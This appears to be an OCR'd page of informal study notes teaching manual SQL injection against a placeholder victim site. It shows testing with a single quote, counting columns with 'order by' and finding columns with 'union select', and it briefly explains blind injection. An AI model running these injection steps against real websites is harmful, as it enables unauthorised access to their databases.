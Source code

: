     - Now we should ckeck the vulenrability of websites .
    - in order to check the vulenrability , add teh single quotes(') at teh end of the url and hit enter
    - for eg:
      https://www.vitimesite.com.index.php?id=2'

      - if the page remains in same page or showing that page not found or shoeing some other webpages then is it not vulnerable .

      - If it showing any errors which is related to sql query , then it is vulnerable .

  - **step-3 Finding Number of Columns :**

    - Now we have found teh website is vulnerable.
    - next step is to find the number of columns in the table
    - for that replace single quotes(')with "order by n" statement
    - change the n from 1, 2 ,3 4, 5 ,..... n .untial you get the error like "unknown Column " .

    - for eg :

      - https://www.vitimesite.com.index.php?id=2 order by 1

      - https://www.vitimesite.com.index.php?id=2 order by 2

      - https://www.vitimesite.com.index.php?id=2 order by 3

      - https://www.vitimesite.com.index.php?id=2 order by 4
        .........
      - https://www.vitimesite.com.index.php?id=2 order by 8 (error )
        so now x=8 therfore the number of columns is 7 .

  - **Step-4 Displaying the vulnerable columns:**

    - using "union select columns sequnce " we can find the vulnerable part of the table Replace the "order by n " with this statement .

    - And change the id value to negative

    - Replace the columns_sequence with the no from 1 to x-1 (number of columns )separated with commas(, ).

    - for eg :

      - if the number of columns is 7 , then query is as follow :

      - https://www.vitimesite.com.index.php?id=-2union select 1,2,3,4,5,6,7

- ## blind sql injection

  - Blind sql injection is used when a web applicaion is vulnerable to an SQL injection but the results of the injectioins are not visible to the attaker .

  - The page with the vulnerabillty may not be one that displays data but will displa differntly depending on the reults of a logical statement injected into the legitimate SQL statement called for that page .

  - This Type of attack can become time-intensive because a new statment must be crafted for each bit recoverd .

  - There are serveral tools that can automate these attacks once the location of the vulnerablity and the target inforamtion has been established .
